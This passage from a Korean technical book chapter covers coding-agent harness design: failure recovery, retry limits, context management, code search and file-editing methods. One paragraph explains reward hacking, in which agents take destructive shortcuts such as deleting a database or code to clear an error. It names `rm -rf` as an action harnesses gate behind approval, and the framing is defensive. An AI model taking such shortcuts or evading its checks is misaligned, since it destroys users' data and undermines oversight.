- **대규모 코드 마이그레이션 사례**(한 대형 기술 기업이 공개한 대규모 코드 마이그레이션 실무): 핵심은 모델의 성능이 아니라 하네스가 세 가지를 제대로 수행한 데 있었습니다. 지식은 코드베이스 자체에 존재해야 하고(에이전트가 볼 수 없는 것은 존재하지 않는 것과 같습니다), 제약은 문서에 적는 대신 린터와 CI에 인코딩해야 하며, 검증과 교정을 처음부터 끝까지 완전히 자동화해야 합니다.
- **LangChain**: 하네스(시스템 프롬프트, 도구 미들웨어, 자체 검증 루프)만 최적화하여 벤치마크 작업 성능을 크게 높였습니다. 특히 "에이전트로 실패 궤적을 분석해 하네스를 개선하는" 방법론은 하네스 엔지니어링을 경험 주도에서 데이터 주도로 전환했다는 점에서 주목할 만합니다.
- **Anthropic**: 장기 작업을 두 역할로 나눕니다. 초기화 에이전트는 큰 작업을 작업 목록으로 분해하고, 실행 에이전트는 단계별로 진행하면서 다음 차례에서 계속 활용할 중간 결과(완성한 코드 파일, 갱신한 작업 목록 등)를 남깁니다. 이 역할 분담은 장기 실행 에이전트가 "한 번에 너무 많은 일을 하려 하거나", "너무 일찍 완료했다고 주장하는" 문제를 해결합니다.

**코딩 에이전트에서 범용 하네스 설계 원칙으로.**

코딩 에이전트의 하네스 실무는 모든 에이전트 시스템에 적용할 수 있는 설계 원칙을 제공합니다.

1. **지침보다 제약**: 코드로 강제할 수 있는 규칙은 문서에서 권고만 하지 말고 코드에 인코딩해야 합니다. 린터 규칙, 타입 제약, CI 검사의 가치는 시스템 프롬프트의 "따라 주세요..."라는 지침보다 훨씬 큽니다. 전자는 "할 수 없다"는 뜻이고, 후자는 "하지 않기를 권한다"는 뜻에 불과합니다.
2. **검증 자동화**: 수동 검토는 확장할 수 없는 병목입니다. 테스트 스위트, 코드 품질 검사, 행동 모니터링에 투자하면 사람의 노력을 추가하는 것보다 훨씬 높은 수익을 얻을 수 있습니다.
3. **피드백은 최대한 빠르고 구조화되어야 함**: 오류 메시지가 상세하고 오류 발생 시점과 가까울수록 에이전트가 더 효율적으로 스스로 교정할 수 있습니다. 2장의 에이전트 상태 표시줄 기법(상세 오류 메시지, 도구 호출 카운터)이 이 원칙을 구현합니다.
4. **롤백은 신뢰할 수 있어야 함**: 에이전트는 안전망 안에서 작업할 때만 과감하게 실험할 수 있습니다. Git 브랜치, 샌드박스 환경, 스냅샷 메커니즘은 어떤 오류든 되돌릴 수 있게 합니다.

**제약의 더 깊은 목적: 과정 오류 방지.** 인수 기준선은 결과가 올바른지를 통제하고, 실행 경계는 **과정**을 통제합니다. 결과가 맞더라도 잘못된 방법이 정당화되지는 않습니다. 데이터베이스 장애를 "수정"하기 위해 데이터베이스를 삭제하고 다시 만들면 장애는 해결되지만 데이터가 사라집니다. 컴파일 오류를 고치려고 코드를 모두 삭제하면 컴파일은 통과하지만 구현이 사라집니다. 이런 파괴적 지름길은 언제나 존재합니다. 제한 사항을 최종 평가 지표에 포함하더라도 에이전트는 이를 우회하는 방법을 자주 찾아냅니다. 이것이 에이전트 작업에서 나타나는 일상적인 형태의 보상 해킹(8장)입니다. 따라서 프로덕션 하네스는 `rm -rf`, 프로덕션 데이터 삭제, 읽어 보지 않은 파일 덮어쓰기 같은 위험한 행동에 전용 검사와 승인 절차를 둡니다(이 장의 보안 절에서 다룬 의미론적 파싱, 4장의 사이드카 검토). 단순히 결과가 아니라 **행동**을 제한하는 것입니다. 8장의 RLVP(Reinforcement Learning with Verified Penalty, "결과에는 보상하고 경로에는 페널티를 부여")는 학습 관점에서 같은 질문에 답합니다. 최종 결과 보상에 더해 경로상에서 검증할 수 있는 위반에 페널티를 부여하여 "파괴적인 수단을 사용하지 않는다"는 원칙을 모델의 엔지니어링 상식으로 내재화합니다. 기존 모델에는 하네스 가드레일이 외부 제약으로 작용하고, 학습 가능한 모델에는 과정 페널티가 같은 제약을 내재화합니다. 목표는 동일합니다.

**도구 오케스트레이션: 장애 경계 제어.** 성숙한 코딩 에이전트는 병렬 도구 호출을 지원합니다. 하네스 관점의 고유한 문제는 **장애가 전파되는 방식**입니다. 한 도구가 실패했을 때 어떤 호출을 중단하고 어떤 호출을 계속해야 할까요? 원칙은 장애가 같은 병렬 호출 배치 안에서만 전파되고 상위 작업까지 올라가지 않게 하는 것입니다. 예를 들어 파일 세 개를 병렬로 읽을 때 파일 하나가 없다면 해당 호출만 실패해야 합니다. 나머지 두 호출을 취소하거나 전체 작업을 중단해서는 안 됩니다. 이러한 세밀한 장애 경계 제어는 "명령 하나가 실패하면 전체 작업이 중단되는" 취약한 패턴을 피합니다. 병렬 호출, 스트리밍 파싱, 연쇄 중단의 구체적인 메커니즘은 이 장의 "구현 팁" 절에서 자세히 다룹니다.

### 실패와 오류 복구

앞 절에서는 하네스 엔지니어링의 원칙과 구성 요소를 제시했습니다. 이 절에서는 엔지니어링 성숙도를 가장 뚜렷하게 구분하는 요소인 **실패와 오류 복구**를 자세히 살펴봅니다. 1장의 제거 실험은 이 문제가 얼마나 심각할 수 있는지 보여 주었습니다. 도구 결과 피드백 하나만 빠져도 에이전트가 무한 루프에 빠질 수 있으며, 실제 프로덕션 환경에서는 어떤 실험보다 훨씬 다양한 실패가 발생합니다. 이 절에서는 프로덕션 하네스가 어떤 실패를 만나는지, 이를 어떻게 감지하고 복구하는지, 언제 시스템을 종료해야 하는지라는 세 가지 질문에 체계적으로 답합니다.[^ch5-3]

[^ch5-3]: 이 절의 실패 분류와 메커니즘 분석은 Claude Code 같은 프로덕션 수준 에이전트 구현의 소스 코드를 조사한 결과를 바탕으로 합니다. 구체적인 구현은 버전에 따라 빠르게 발전하므로, 여기서는 안정적인 엔지니어링 원칙만 추려 설명합니다.

**실패 분류: 네 계층.** 체계적인 대응의 첫 단계는 분류입니다. 실패는 발생 위치에 따라 네 계층으로 나뉩니다.

- **API 계층**: 속도 제한(HTTP 429), 서비스 과부하, 요청 시간 초과, 연결 끊김, 토큰 한도에서 잘린 출력입니다. 이러한 실패는 작업 자체와 무관한 인프라 잡음입니다.
- **도구 계층**: 환각에 의한 호출(존재하지 않는 도구 호출), 잘못된 인수(도구의 입력 계약 위반), 실행 예외, 그리고 가장 위험한 유형인 모델이 변경 없이 재시도하는 동안 도구가 같은 오류를 반복해서 반환하는 상황입니다.
- **컨텍스트 계층**: 컨텍스트 창 초과, 압축 실패, 손상된 궤적 구조(예: 도구 호출과 짝을 이루는 결과 메시지가 없음)입니다.
- **제어 흐름 계층**: 무한 루프(진전 없이 같은 작업 반복)와 데스 스파이럴(오류가 촉발한 복구 로직이 다시 LLM을 호출하고, 또 실패하여 연쇄적으로 이어짐)입니다.

**감지: 먼저 분류하고 그다음 횟수를 센다.** 실패가 발생했을 때 첫 질문은 "재시도할까?"가 아니라 "재시도하면 도움이 될까?"여야 합니다. 속도 제한, 과부하, 네트워크 지터처럼 재시도 가능한 오류는 재시도할 가치가 있습니다. 반면 잘못된 인수, 권한 부족, 존재하지 않는 도구처럼 재시도할 수 없는 오류는 현재 상태 그대로 몇 번을 다시 시도해도 같은 결과만 나옵니다. 입력이나 전략을 바꿔야 합니다. 프로덕션 하네스는 모든 오류에 일괄적으로 "오류 시 재시도"를 적용하지 않고 오류 유형과 복구 전략의 매핑을 유지합니다.

개별 오류를 넘어 **패턴**도 감지해야 합니다. 첫째는 반복 호출 지문입니다. "도구 이름 + 인수" 쌍을 해시하며, 같은 지문이 반복되면 진전 없는 루프라는 명확한 신호입니다. 1장의 제거 실험에서 에이전트가 같은 도구를 계속 호출한 상황이 바로 이 패턴입니다. 둘째는 연속 실패 카운터입니다. 각 복구 경로가 자체 카운터를 유지하며, 이는 뒤에서 다룰 서킷 브레이커의 근거가 됩니다.

세 번째 실패 유형은 오류로 전혀 드러나지 않으므로 전용 **활성 상태와 무결성 모니터링**이 필요합니다. 스트리밍 연결에서 가장 위험한 실패는 즉시 오류가 발생하는 연결 끊김이 아니라 조용한 정체입니다. 연결은 유지되지만 물이 나오지 않는 연결된 파이프처럼 데이터 흐름이 멈춥니다. SDK의 시간 초과는 전송 과정이 아니라 초기 연결만 다루는 경우가 많으므로, 프로덕션 에이전트에는 독립적인 유휴 감시기(watchdog)가 필요합니다. 설정한 시간 안에 새 출력이 도착하지 않으면 연결이 정체된 것으로 판단하는 감시 타이머가 멈춘 스트림을 종료하고 시간 초과 시 재시도를 촉발합니다. 이는 **모든 장기 연결에는 연결 시간 초과뿐 아니라 활성 상태 신호가 필요하다**는 원칙으로 일반화할 수 있습니다. 무결성 모니터링은 궤적 구조를 대상으로 합니다. 도구 호출과 짝을 이루는 결과 메시지가 없으면 구조적 이상을 모델이나 사용자에게 던지는 대신 컨텍스트에 주입하기 전에 시스템이 짝을 복구합니다. 주목할 만한 엔지니어링 세부 사항도 있습니다. 일부 프로덕션 에이전트는 프로덕션 모드와 학습 데이터 수집 모드를 모두 운영합니다. 프로덕션 모드에서는 누락된 메시지를 자리표시자로 보완할 수 있지만, 학습 모드에서는 합성 자리표시자가 학습 데이터를 오염시키므로 복구를 거부합니다. 이러한 "프로덕션에서는 관대하게, 학습에서는 엄격하게"라는 이중 기준은 하네스와 모델 학습이 깊이 결합되어 있음을 보여 줍니다.

**복구: 사용자에게 점차 더 잘 보이는 단계로 확대한다.** 복구 조치는 사용자에게 얼마나 드러나는지에 따라 단계를 나눕니다. 낮은 단계에서 문제가 해결되면 더 높은 단계로 확대하지 않습니다.

1. **조용한 재시도.** 재시도 가능한 오류에 대한 기본 동작입니다. 재시도 성공 여부를 결정하는 두 가지 세부 사항이 있습니다. 첫째, 서버가 제안한 대기 시간을 따르면서 무작위 지터가 있는 지수 백오프를 사용해 많은 클라이언트가 동시에 재시도하여 2차 혼잡을 일으키지 않게 합니다. 둘째, 포그라운드 호출과 백그라운드 호출을 구분합니다. 실패한 주 루프 요청은 재시도하지만, 제목 생성이나 입력 제안 같은 보조 백그라운드 호출은 실패하면 버립니다. 백그라운드 재시도가 주 루프의 할당량을 잠식하여 "재시도 증폭"을 일으키지 않게 하기 위해서입니다.
2. **기능을 축소해 계속하기.** 재시도가 실패하면 요청 자체를 바꾸어 다시 시도합니다. 길이 제한으로 생성이 끊긴 출력 잘림을 예로 들어 보겠습니다. 먼저 출력 한도를 늘려 조용히 다시 보냅니다. 그래도 부족하면 메시지 끝에 메타 지침을 추가해 모델이 중단 지점부터 생성을 이어 가게 합니다. 주 모델이 계속 과부하 상태라면 이전 모델 기록에서 독점 형식 블록을 먼저 제거해 새 모델이 이를 파싱할 수 있게 한 뒤 다른 모델로 폴백합니다. 고비용 모드가 속도 제한에 걸리면 일시적으로 표준 모드로 폴백합니다.
3. **사용자에게 알리기.** 모든 자동 수단을 소진한 뒤에만 이미 시도한 복구 조치와 함께 오류를 사용자에게 보여 줍니다.

도구 계층 오류는 다른 경로를 따릅니다. **세션을 종료하지 말고 오류를 모델의 입력으로 바꿉니다.** 환각에 의한 호출에는 구조화된 "그런 도구가 없음" 오류 결과를 반환하고, 검증 실패에는 입력 계약에 관한 힌트를 덧붙인 오류를 반환합니다. 객체가 필요한 곳에 문자열을 출력하는 식의 잘못된 인수는 실행 전에 프로그램으로 복구합니다. 이러한 오류는 일반 도구 결과처럼 컨텍스트에 들어가며 모델은 다음 턴에 스스로 교정합니다. 이는 앞서 살펴본 "피드백은 구조화될수록 좋다"는 원칙의 적용입니다. 피드백으로 전달하는 오류가 구체적일수록 모델의 자기 교정률이 높아집니다.

이 절의 핵심 원칙은 **오류 처리의 단위가 개별 요청이 아니라 전체 복구 루프**라는 것입니다. 복구가 불가능하다고 확인되기 전까지는 사용자든 이벤트를 구독하는 다운스트림 시스템이든 소비자에게 중간 오류를 노출해서는 안 됩니다. 복구 중에는 오류 메시지를 보류하고, 복구에 성공하면 소비자는 오류가 있었다는 사실조차 알지 못합니다. 모든 시도가 실패했을 때만 보류한 오류를 공개합니다. 이는 1장의 교정 원칙인 "복구가 불가능하다고 확인되기 전에는 중간 상태를 노출하지 않는다"를 엔지니어링으로 구현한 것입니다.

**종료: 모든 복구 경로에는 상한이 필요하다.** 복구 메커니즘 자체도 실패할 수 있으므로 모든 복구 경로에는 명시적인 재시도 상한이 있어야 합니다. 컨텍스트 압축은 연속으로 몇 차례 실패하면 포기하고, 권한 분류기는 반복 실패 후 사람에게 묻는 방식으로 폴백하며, 출력 이어 쓰기는 정해진 횟수만 시도합니다. 임계값은 어디에서 나올까요? 추측이 아니라 프로덕션 데이터에서 나옵니다. Claude Code의 압축 서킷 브레이커를 예로 들어 보겠습니다. "3회 연속 실패"라는 임계값은 실제 세션 통계에서 비롯되었습니다. 한 세션이 바로 이 복구 경로에서 3,000회 넘게 연속 실패한 적이 있었고, 이런 무의미한 재시도만으로 전 세계에서 하루 약 25만 건의 API 호출이 낭비되었습니다. 1,000개가 넘는 세션에서 50회 이상의 연속 실패가 나타났습니다. 3회는 "실패의 절대다수가 이 전에 복구된다"와 "더 재시도해도 사실상 가망이 없다" 사이에서 경험적으로 확인한 변곡점입니다.

단일 지점 브레이커보다 더 교활한 문제는 **데스 스파이럴**입니다. 오류 경로에서 촉발된 로직이 LLM을 호출하고 또 실패하면서 연쇄적으로 이어집니다. 실제로 발생한 연쇄 사례가 있습니다. 에이전트가 컨텍스트 초과 오류로 중단되자 "종료 시 코드를 커밋하는" 중단 훅(에이전트가 끝날 때 자동으로 실행되는 정리 로직)이 실행됩니다. 훅이 커밋 메시지를 작성하기 위해 LLM을 호출하고, 컨텍스트가 다시 초과되어 훅이 또 실행됩니다. 방어 방법은 두 가지입니다. 오류 경로에서는 모델을 호출하는 모든 부작용을 비활성화합니다(자동 메모리 추출 같은 보조 기능을 한 번 잃는 편이 낫습니다). 그리고 재귀 깊이 카운터를 사용해 남은 연쇄를 감지하고 끊습니다. 마지막으로 모든 자동 메커니즘 위에는 전역 종료·에스컬레이션 조건이 있습니다. 최대 턴 수, 세션 예산 상한, 연속 실패가 임계값을 넘을 때 사람의 개입으로 에스컬레이션하는 조건입니다.

### 코딩 에이전트 구현 팁

앞에서 설명한 워크플로는 이상적인 모습입니다. 이를 실무에서 작동시키려면 사고의 품질을 떨어뜨리지 않으면서 응답 속도를 높이고 컨텍스트 소비를 줄이는 몇 가지 구체적인 구현 기법이 필요합니다. 이는 2장과 4장의 범용 에이전트 기법을 프로그래밍 영역에 적용한 것입니다.

**병렬 도구 호출, 스트리밍 실행, 연쇄 중단.**

기존 에이전트 구현은 도구 호출을 생성하고 실행하여 결과를 받은 뒤 다음 단계를 결정하는 직렬 방식으로 작동하는 경우가 많습니다. 이러한 엄격한 대기열 처리는 많은 시간을 낭비합니다.

현대의 코딩 에이전트는 스트리밍 응답을 충분히 활용해야 합니다. 2장에서 모델 출력 순서를 설명하며 이 메커니즘을 소개했습니다. 첫 번째 도구 호출의 매개변수가 완전히 생성되고 검증을 통과하면 모델이 이후 도구 호출을 생성할 때까지 기다리지 않고 즉시 실행을 시작할 수 있습니다. 예를 들어 모델이 한 번의 추론에서 코드 검색, 설정 파일 확인, 로그 읽기라는 세 가지 도구 호출을 출력해야 한다면 첫 번째 호출의 매개변수가 완성되고 검증되는 즉시 실행을 시작하여 나머지 두 호출의 생성과 겹칠 수 있습니다. 독립적인 호출은 대기열에 넣는 대신 병렬로 실행할 수도 있습니다. 이렇게 실행을 겹치면 엔드투엔드 지연이 크게 줄어 에이전트가 더 민첩하게 응답합니다.

병렬 실행의 이면에는 장애 처리가 있습니다. 각 도구 정의는 동시 실행 지원 여부를 선언해야 하며, 안전한 실패를 위해 기본값은 지원하지 않음으로 둡니다. 호출 하나가 실패하면 연쇄 중단 메커니즘이 같은 배치에서 시작되어 그 결과에 의존하는 다른 호출은 종료하되, 독립적인 호출이나 상위 작업에는 영향을 주지 않습니다. 이는 하네스 엔지니어링 절의 "장애 경계 제어" 원칙을 구체적으로 구현한 것입니다.

**세밀한 컨텍스트 관리.**

코딩 에이전트의 근본적인 문제는 코드베이스가 대개 크지만 모델의 컨텍스트 창은 제한적이라는 점입니다. 고급 모델이 수백만 토큰을 지원한다고 해도 코드베이스 전체를 컨텍스트에 넣는 것은 경제적이지도, 필요하지도 않습니다. 지능적인 컨텍스트 관리는 여러 수준에서 작동해야 합니다.

파일 읽기 수준에서 에이전트는 항상 파일 전체를 읽어서는 안 됩니다. 큰 파일의 경우 수천 줄을 모두 불러오는 대신 100~150줄만 읽는 식으로 특정 줄 범위를 읽을 수 있어야 합니다. 더 중요한 것은 내용을 반환할 때 각 코드 줄 앞에 실제 줄 번호를 붙이는 것입니다. 단순해 보이는 이 설계는 큰 가치를 제공합니다. 모델이 "`src/main.py`의 42번째 줄"을 정확히 가리킬 수 있어 모호함이 줄고 이후 편집 작업의 신뢰성이 높아집니다.

명령 실행 수준에서는 터미널 출력도 신중히 처리해야 합니다. 컴파일이나 테스트는 수천 줄의 출력을 만들 수 있으며, 이를 모두 컨텍스트에 주입하면 예산을 빠르게 소진합니다. 4장에서 소개한 긴 출력의 잘라내기와 영속화 메커니즘이 여기서 널리 사용됩니다. 보통 오류 컨텍스트가 담긴 앞부분 몇 줄과 오류 요약이 담긴 뒷부분 몇 줄을 남기고, 중간 부분은 한 줄짜리 자리표시자로 바꿉니다. 전체 출력은 필요할 때 볼 수 있도록 임시 파일에 저장했다는 사실도 알립니다.

**환경 정보의 동적 주입.**

이는 2장의 에이전트 상태 표시줄 기법이 코딩 에이전트에서 집중적으로 나타난 형태입니다. 범용 에이전트와 달리 코딩 에이전트는 실행 환경의 상태에 크게 의존합니다. 추론할 때마다 다음 핵심 환경 정보를 에이전트 상태 표시줄 형태로 컨텍스트 끝에 주입해야 합니다.

- **현재 작업 디렉터리**: 경로를 올바르게 참조하도록 합니다.
- **Git 브랜치**: 기본 브랜치에서 작업하는지 기능 브랜치에서 작업하는지 알게 합니다.
- **최근 커밋 기록**: 프로젝트의 발전 과정을 이해하게 합니다.
- **스테이징 전후 변경 사항 개요**: 어떤 변경이 이루어졌는지 알게 합니다.

이 정보를 정적 시스템 프롬프트에 하드코딩하면 KV 캐시 효율이 무너지므로, 동적으로 생성하여 뒤에 덧붙이는 에이전트 상태 표시줄로 주입해야 합니다. 그러면 에이전트가 "환경 인식" 능력을 얻어 오래된 가정이 아니라 현재 상태에 대한 정확한 이해를 바탕으로 매번 의사결정할 수 있습니다.

**명령 실행 환경의 상태 지속성.**

코드와 상호작용할 때는 디렉터리 변경, 가상 환경 활성화, 환경 변수 설정, 백그라운드 서비스 시작 등 많은 작업이 환경 상태에 의존합니다. 각 명령을 새 셸에서 실행하면 이 상태가 모두 사라집니다. 에이전트가 방금 `cd`로 프로젝트 디렉터리로 이동했더라도 다음 명령은 셸의 기본 디렉터리에서 다시 시작하므로 같은 설정을 반복해야 합니다. 더 나쁜 점은 Python 가상 환경 활성화처럼 일부 작업의 효과는 현재 셸 세션 안에서만 유효하여 세션 간에 전달할 수 없다는 것입니다.

따라서 에이전트가 시작될 때 생성하여 상호작용 내내 활성 상태로 유지하는 영구 터미널 세션이 필요합니다. 각 명령을 이 공유 터미널에서 실행하면 작업 디렉터리, 환경 변수, 세션 상태가 보존됩니다. 이는 보통 장시간 실행되는 터미널 창에서 일하는 사람 개발자의 작업 습관과도 더 잘 맞습니다. 물론 병렬 작업을 지원하기 위해 격리된 터미널을 시작할 수 있어야 하지만, 기본 모드는 영구 세션이어야 합니다.

**즉각적인 구문 피드백 메커니즘.**

이는 에이전트 상태 표시줄 기법의 가치를 다시 한번 보여 줍니다. 코드를 수정한 에이전트는 사용자가 명시적으로 테스트를 요청할 때까지 기다리지 말고 구문을 검사해야 합니다. 더 효율적인 방법은 파일 쓰기 작업이 끝나는 즉시 도구 계층에서 해당 린터나 구문 검사기를 자동으로 실행하고, 그 결과를 도구 반환값의 일부로 에이전트에 제공하는 것입니다. 구문 오류가 발견되면 에이전트는 IDE가 짝이 맞지 않는 괄호를 즉시 표시하듯 바로 다음 추론 라운드에서 상세 오류 정보를 확인합니다. 이 즉각적인 피드백 메커니즘은 오류 수정 비용을 크게 줄입니다. 테스트를 실행할 때까지 기다렸다가 문제를 발견하는 대신 오류가 생긴 순간에 에이전트가 바로 교정할 수 있기 때문입니다.

병렬 처리와 스트리밍, 컨텍스트 관리, 환경 인식, 상태 지속성, 즉각적인 피드백이라는 다섯 가지 구현 기법은 효율적인 코딩 에이전트의 기술 기반을 함께 구성합니다. 이들은 서로 분리된 최적화 지점이 아니라 상호 보완하는 설계 결정이며, 에이전트가 숙련된 개발자처럼 매끄럽게 작업하도록 한다는 하나의 목표를 향합니다.

### 코딩 에이전트의 검색 도구

대규모 코드베이스에서 관련 코드를 찾는 일은 코딩 에이전트 작업의 출발점입니다. 그림 5-3은 여러 상호 보완적인 검색 도구를 비교하며, 성숙한 코딩 에이전트가 작업의 특성에 따라 검색 방법을 어떻게 선택해야 하는지 보여 줍니다.


**정규식 내용 일치**(grep/ripgrep): 파일 내용을 한 줄씩 스캔하여 패턴이 일치하는지 찾는 가장 전통적인 검색 방법입니다. 에이전트가 찾을 정확한 텍스트(함수 이름, 변수 이름, 오류 메시지)를 안다면 모든 출현 위치를 빠르고 정확하게 찾을 수 있습니다. 정규식(특수 기호로 텍스트 패턴을 표현하는 문법으로, 예를 들어 `def handle.*`은 `handle`로 시작하는 모든 함수 정의와 일치)의 표현력을 사용하면 리터럴 텍스트뿐 아니라 특정 구조에 맞는 코드와 같은 복잡한 패턴도 포착할 수 있습니다. 실무에서는 잡음을 줄이기 위해 파일 유형 필터링(Python 파일만 검색)과 경로 패턴 필터링(테스트 디렉터리 제외)도 지원해야 합니다. 근본적인 한계는 텍스트 일치만 찾을 뿐 의미는 이해하지 못한다는 것입니다. "사용자 인증"을 검색해도 로그인 로직을 처리하지만 우연히 "인증"이라는 단어가 없는 함수는 절대 나타나지 않습니다.

**파일 이름 패턴 일치**(glob): 파일 내용은 무시하고 파일 시스템의 경로 구조에서 패턴과 일치하는 파일만 검색합니다. 예를 들어 `**/*.test.ts`는 모든 TypeScript 테스트 파일을 재귀적으로 찾고, `src/components/**/Button.tsx`는 components 아래 임의 깊이에서 Button.tsx를 찾습니다. 파일을 열어 읽을 필요가 없어 내용 검색보다 훨씬 빠르며, 에이전트가 프로젝트 구조를 탐색할 때 가장 먼저 사용합니다. 전체 파일 시스템을 스캔하여 프로젝트의 조직적 틀을 빠르게 파악합니다.

**의미 기반 코드 검색**: 앞의 두 정확 일치 방식과 달리 질의와 코드의 "의미"를 이해하려고 시도합니다. 다음 두 가지 핵심 문제를 해결해야 합니다.

- **구조 인식 청킹**: 코드는 엄격한 구문 구조를 가지므로 고정된 문자 수로 무작정 자르는 대신 함수, 클래스, 메서드처럼 완전한 의미 단위로 나누어야 합니다.
- **하이브리드 검색**(3장에서 이 기술 스택을 자세히 설명합니다): 벡터 임베딩(밀집 임베딩)은 표현은 다르지만 의미가 유사한 코드를 찾는 데 강합니다(예: "사용자 신원 확인"을 검색하여 `check_credentials`라는 함수를 찾을 수 있습니다). 반면 키워드 일치는 함수와 변수 이름을 정확히 일치시키는 데 강합니다. 둘을 병렬로 실행하고 재순위화 모델(후보 결과의 관련성을 세밀하게 정렬하는 교차 인코더)이 결과를 병합·정렬하여 상호 보완적으로 검색합니다.

의미 기반 검색은 익숙하지 않은 코드베이스에서 "데이터베이스와 상호작용" 또는 "사용자 입력 검증 처리"와 관련된 코드를 찾는 식의 탐색 작업에 특히 적합합니다.

하지만 의미 기반 검색을 위해 임베딩 인덱스를 구축할 가치가 있는지를 두고 업계에서는 뚜렷한 논쟁이 있습니다. Claude Code 같은 터미널 기반 에이전트는 의도적으로 **임베딩 인덱스를 만들지 않고**, 에이전트형 grep + glob만으로 그때그때 검색합니다. 코드가 발전하면서 오래되는 인덱스를 유지할 필요가 없고, 인덱싱 인프라 전체를 없앨 수 있습니다. Cursor 같은 IDE 기반 도구는 초기에 반대 접근법을 취했습니다. **파일 간 의미 재현율**을 얻기 위해 인덱스 구축 비용을 감수하고, 임베딩 인덱스로 대규모 코드베이스에서 의미는 관련 있지만 표현이 다른 코드 조각을 빠르게 찾습니다. 현재는 Cursor 같은 IDE도 grep + glob 현장 검색으로 전환했습니다.

**심벌 수준 정의·참조 검색**: IDE와 유사한 "정의로 이동"과 "모든 참조 찾기" 기능을 사용해 심벌 정의와 참조를 구분합니다. 예를 들어 42번째 줄의 `authenticate`는 함수 정의이고 189번째 줄의 출현은 호출이라고 식별하지만, 텍스트 검색은 해당 문자열이 포함된 모든 줄만 찾을 수 있습니다. 현재 주류 코딩 에이전트는 이 방법을 채택하지 않습니다.

이 네 가지 검색 방법은 상호 보완적인 도구 상자를 이루며 실무에서는 함께 사용하는 경우가 많습니다. 먼저 의미 기반 검색으로 관련 모듈을 찾고, 정규식 일치로 구체적인 코드 줄을 정확히 찾은 다음, 심벌 검색으로 호출 체인을 추적합니다. "거친 것에서 세밀한 것으로, 의미에서 구문으로" 나아가는 점진적 전략입니다.

### 코딩 에이전트의 파일 편집 도구

파일 편집의 어려움은 작업 자체가 아니라 LLM을 사용해 "무엇을 어떻게 바꿀지" 시스템에 효율적이고 신뢰성 있게 전달하는 데 있습니다. 그림 5-4는 다섯 가지 파일 편집 방식을 비교하며 사람의 언어 표현과 기계의 정밀한 실행 사이에 존재하는 근본적인 긴장을 보여 줍니다.



**Diff 설명 + 적용 모델(Apply Model)**: 모델이 파일 편집 방법을 직접 지정하는 대신 변경 설명을 생성합니다. 이는 `git diff` 명령이 출력하는 "어떤 줄이 삭제되고 추가되었는지"를 보여 주는 형식과 유사한 diff 텍스트이거나, "여기는 변경하지 않음" 같은 주석으로 수정하지 않은 부분을 생략하는 코드 골격일 수 있습니다. 그런 다음 이 설명을 대개 더 작고 빠른 별도의 LLM인 전문 "적용 모델"에 전달합니다. 적용 모델은 설명과 원본 파일을 병합해 완전한 새 파일을 만듭니다. 이렇게 관심사를 분리하면 주 모델은 고수준 코드 로직에, 적용 모델은 저수준 텍스트 작업에 집중할 수 있습니다. 단순한 구현은 병합 단계에서 취약합니다. 변경 설명과 실제 파일 코드 사이에 사소한 차이가 있을 때 같은 위치를 가리키는지 판단해야 하고, 유사한 코드 조각이 여러 개이면 잘못된 위치에 병합할 수 있습니다. Cursor는 이 접근법을 지속적으로 발전시킨 대표적인 사례입니다. 주 모델이 생략 표시가 있는 코드 골격을 출력하면 특별히 학습한 빠른 적용 소형 모델이 전체 파일을 다시 작성하고, 추측 디코딩(원본 파일 내용을 초안으로 사용해 병렬 검증)이 병합 속도를 초당 수천 토큰까지 끌어올립니다. 엔지니어링 투자를 통해 이 접근법의 신뢰성과 속도를 확보한 것입니다.

**기존 문자열 → 새 문자열**: Claude Code가 채택한 접근법입니다. 모델이 기존 문자열(교체할 원본 텍스트)과 새 문자열(대체 텍스트)을 제공하면 프레임워크가 단순한 문자열 찾기·바꾸기를 수행합니다. 장점은 예측 가능하고 투명하다는 것입니다. 기존 문자열이 파일에 존재하며 유일하면 성공하고, 그렇지 않으면 실패합니다. 모호함이 없습니다. 대규모 코드 블록을 삭제하려면 원본 내용을 전부 출력해야 하고 문자 하나만 달라도 일치에 실패한다는 비용이 있습니다. 같은 코드가 여러 번 나타나면 구분을 위해 더 긴 컨텍스트를 제공해야 합니다.

**줄 번호 지정**(기존 줄 번호 → 새 문자열): 모델이 "X줄부터 Y줄까지 삭제하고 새 내용을 삽입"한다고 지정합니다. 줄 번호는 정확하고 모호하지 않으며, 큰 블록을 삭제할 때도 숫자 두 개만 있으면 됩니다. 하지만 모델은 특히 매우 긴 파일에서 줄 번호를 "셀" 때 실수하기 쉽습니다. 실무에서는 파일을 읽을 때 각 줄에 줄 번호 주석을 붙여 이를 완화하지만, 편집할 때마다 이후 줄 번호가 바뀌어 여러 편집을 병렬로 수행하기 어렵습니다.

**Vim 방식 편집 명령**: Vim 편집기의 명령 체계를 차용하여 복사, 잘라내기, 붙여넣기 같은 풍부한 작업을 지원합니다. 함수를 다른 위치로 옮기는 등의 코드 구조 변경에 매우 효율적입니다. 하지만 명령 문법을 익혀야 하는 실질적인 부담이 있습니다. 가장 강력한 모델은 이를 잘 다루지만 작은 모델은 눈에 띄게 더 많은 실수를 합니다.

**문자열 시작 + 끝 일치**(기존 문자열 시작 + 끝 → 새 문자열): 기존 문자열 교체 방식을 개선한 것으로 볼 수 있습니다. 모델은 기존 문자열 전체를 출력할 필요 없이 삭제할 내용의 처음 몇 줄과 마지막 몇 줄만 제공하고 중간은 생략합니다. 프레임워크는 이 시작·끝 쌍을 이용해 교체 영역을 찾으며, 두 요소의 조합은 파일 안에서 유일해야 합니다. 이 방식은 텍스트 교체의 신뢰성과 줄 번호 방식의 효율성을 결합합니다. 큰 코드 블록을 삭제할 때 원본 코드 수백 줄을 출력할 필요 없이 경계만 보여 주면 됩니다. 동시에 추상적인 줄 번호가 아니라 여전히 내용 일치에 기반하므로 모델의 실수 위험이 비교적 낮습니다.

**실무 조언.** 주류 코딩 에이전트는 각각 대표 제품을 둔 두 진영으로 나뉩니다. Claude Code는 "기존 문자열에서 새 문자열로" 방식을 사용합니다. 신뢰성 우선이고 구현이 단순하며 추가 모델이 필요 없습니다. Cursor는 적용 모델 경로를 극한까지 밀어붙였습니다. 전용 빠른 적용 모델의 학습·추론 비용을 지불하는 대신 더 높은 편집 처리량을 얻습니다. 자체 에이전트를 만든다면 "기존 문자열에서 새 문자열로" 방식이 가장 안전한 출발점입니다. 대규모 편집에는 "문자열 시작 + 끝 일치"가 더 경제적인 절충안입니다. 줄 번호 방식은 편집기가 실시간 줄 번호 매핑을 유지하고 편집할 때마다 모델에 다시 제공하는 깊은 IDE 통합이 있을 때만 신뢰할 수 있습니다. 그렇지 않으면 줄 번호 드리프트 때문에 실패합니다.

### 코딩 에이전트의 보안

